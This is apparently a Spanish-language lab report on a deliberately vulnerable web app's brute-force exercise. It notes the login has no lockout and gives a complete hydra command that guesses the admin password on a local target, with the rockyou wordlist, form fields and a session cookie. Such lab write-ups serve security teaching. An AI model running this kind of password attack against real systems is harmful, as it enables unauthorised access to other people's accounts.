 # 1.1 Brute Force

Esta sección nos permite probar la vulnerabilidad de la fuerza bruta. 
Podemos observar que, si fallamos la contraseña, podremos probar cuanto queramos sin bloqueos ni restricciones.

!(/img/imagen1.JPG)
Imagen 1 - BruteForce
Luego procedemos a hacer a probarlo con fuerza bruta, con hydra, con el siguiente comando hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=rt5o26sooph0v8p5nuarofj346" 

!(/img/imagen2.JPG)
Imagen 2 - BruteForceLow
